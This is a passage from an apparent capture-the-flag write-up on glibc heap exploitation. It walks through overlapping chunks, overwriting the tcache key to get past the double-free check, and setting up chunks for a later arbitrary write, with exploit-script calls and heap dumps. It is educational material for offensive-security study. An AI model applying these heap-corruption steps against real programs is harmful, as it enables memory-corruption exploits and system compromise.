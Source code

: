 `heapinfo` also shows this:

```

(0x50)   tcache_entry[3](2): 0x55555555c2b0 --> 0x55555555c290 (overlap chunk with 0x55555555c2a0(freed) )

```

If I want to get access to this chunk, I’ll first need to get 2b0 out of the way. I can’t just get it and free it, or it will end up back in the same place. So I’ll get it, edit it to a smaller size, and then free that, so that two smaller chunks go into tcache, leaving the fake chunk ready to be used.

```

add('B3', 0x40)                                 # fake in 0x50 tcache, f2 -> B
edit('B3', 0x20)                                # B-end in 0x20 tcache
rm('B3')                                        # B in 0x30 tcache

```

Now I’ll add a 0x40 entry, and it will return 290, which I can use to overwrite into B. Before I do that, I have another problem. I want to free B2, but I can’t because it will return a double free error. It is checking the key that comes 0x10 after the size meta, so I need to change that. Luckily, I have this new overlapping chunk. So I’ll create it such that it leaves the 0x51 the same, puts a null for the next tcache, and changes the key.

```

add('fake1', 0x40, p64(0)*3 + p64(0x51) + p64(0))

```

Now the heap shows the key is no longer matching the bad value:

```

0x55555555c250: 0x0000000000000000      0x0000000000000051
0x55555555c260: 0x0000000000000000      0x000055555555c010
0x55555555c270: 0x0000000000000000      0x0000000000000000
0x55555555c280: 0x0000000000000000      0x0000000000000061
0x55555555c290: 0x0000000000000000      0x0000000000000000
0x55555555c2a0: 0x0000000000000000      0x0000000000000051
0x55555555c2b0: 0x0000000000000000      0x000055555555000a  <-- no pointer and key ends in "\x00\x0a" and not "\xc0\x10"
0x55555555c2c0: 0x0000000000000000      0x0000000000000000
0x55555555c2d0: 0x0000000000000000      0x0000000000000021
0x55555555c2e0: 0x0000000000000000      0x000055555555c010
0x55555555c2f0: 0x0000000000000000      0x0000000000020d11

```

I’ll free both B2 and fake1, both going into tcache where I can use them at the end once I need a way to write to arbitrary addresses.

```

rm('fake1')
rm('B2')

```
